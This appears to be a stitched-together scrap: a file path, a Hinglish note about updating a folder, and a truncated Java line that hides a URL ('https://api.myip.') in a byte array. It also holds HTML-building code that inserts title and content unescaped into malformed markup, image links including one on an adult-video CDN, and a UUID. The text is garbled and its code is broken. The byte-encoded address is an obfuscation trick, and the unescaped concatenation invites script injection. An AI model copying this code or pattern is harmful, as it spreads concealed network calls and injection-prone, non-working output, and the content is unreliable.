 # new
This folder is loe kar update file.
Okai?
#007

String str = new String(new byte[]{104,116,116,112,115,58,47,47,97,112,105,46,109,121,105,112,46,

output="<head><style>"+
			"#div1 {"+
			"border: 2px solid #f0ffff;"+
			"padding: 2% 2%;"+
			"background: #f0ffff;"+
			"width: 100%;"+
			"border-radius: 10px;"+
			"}"+
			"</head>"+
			"<body>"+
			"</style>";

		output+="<div id='div1'><h2 style='color:darkred'>"+title+"</h2>";
		output+="<div id='div2'><h3 style='color:red'>"+published+"</h3>";


		output+="<p style='color:green'>"+content+"<br></div><br>";


https://i.imgur.com/X4xYnvQ.jpeg


https://cdn77-pic.xnxx-cdn.com/videos/thumbslll/f4/14/c1/f414c151427461fbeb7cf41c512d49fc/f414c151427461fbeb7cf41c512d49fc.29.jpg


609224ad-c0db-4384-b12d-ca9891beb70d
